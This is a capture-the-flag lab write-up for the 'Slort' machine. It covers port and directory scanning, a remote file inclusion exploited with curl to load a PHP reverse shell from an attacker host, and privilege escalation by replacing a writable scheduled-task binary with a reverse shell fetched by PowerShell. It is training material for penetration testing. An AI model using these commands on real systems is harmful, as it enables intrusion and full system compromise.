 # Slort

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.233.53 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 21:12 +08
Nmap scan report for 192.168.233.53
Host is up (0.17s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
4443/tcp  open  pharos
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8080/tcp  open  http-proxy
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

### FTP Anonymous Fail

Does not allow anonymous logins.

### RFI --> User Shell

Port 4443 and 8080 host the same service:

<figure><img src="../../../.gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` scan on the site and found a few directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.233.53:8080 -t 100                  
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.233.53:8080
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/06/30 21:18:11 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 345] [--> http://192.168.233.53:8080/img/]
/site                 (Status: 301) [Size: 346] [--> http://192.168.233.53:8080/site/]
<TRUNCATED>
```

The `/site` directory contained a basic corporate page, but the most interesting part was the URL:

<figure><img src="../../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

This looks like it's vulnerable to a file inclusion exploit. I tested this and it is RFI for this case:

<figure><img src="../../../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

We can grab a PHP Reverse shell for Windows from this page:

{% embed url="https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php" %}

Afterwards, we just need to execute it:

```
$ curl http://192.168.233.53:8080/site/index.php?page=http://192.168.45.161/rev.php
```

<figure><img src="../../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

## Privilege Escalation

### Cronjob --> SYSTEM Shell

The `C:\` directory contained a `Backup` folder that looked interesting:

```
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\

07/20/2020  07:08 AM    <DIR>          Backup
12/07/2019  02:14 AM    <DIR>          PerfLogs
05/04/2022  01:06 AM    <DIR>          Program Files
12/03/2021  09:22 AM    <DIR>          Program Files (x86)
12/03/2021  09:29 AM    <DIR>          Users
05/04/2022  01:52 AM    <DIR>          Windows
06/12/2020  08:11 AM    <DIR>          xampp

C:\Backup>dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\Backup

07/20/2020  07:08 AM    <DIR>          .
07/20/2020  07:08 AM    <DIR>          ..
06/12/2020  07:45 AM            11,304 backup.txt
06/12/2020  07:45 AM                73 info.txt
06/23/2020  07:49 PM            73,802 TFTP.EXE
```

`info.txt` basically told us what to do:

```
C:\Backup>type info.txt
type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt

C:\Backup>icacls TFTP.EXE
icacls TFTP.EXE
TFTP.EXE BUILTIN\Users:(I)(F)
         BUILTIN\Administrators:(I)(F)
         NT AUTHORITY\SYSTEM:(I)(F)
         NT AUTHORITY\Authenticated Users:(I)(M)

Successfully processed 1 files; Failed processing 0 files
```

We can modify the `TFTP.EXE` file and replace it with our own reverse shell to get a SYSTEM shell after the scheduled task executes.

```
C:\Backup>move TFTP.EXE old.exe
move TFTP.EXE old.exe
        1 file(s) moved.

C:\Backup>powershell -c wget 192.168.45.161/shell.exe -Outfile TFTP.EXE 
powershell -c wget 192.168.45.161/shell.exe -Outfile TFTP.EXE
```

After a few minutes, the task would execute and give us a administrator reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (172).png" alt=""><figcaption></figcaption></figure>

Rooted!
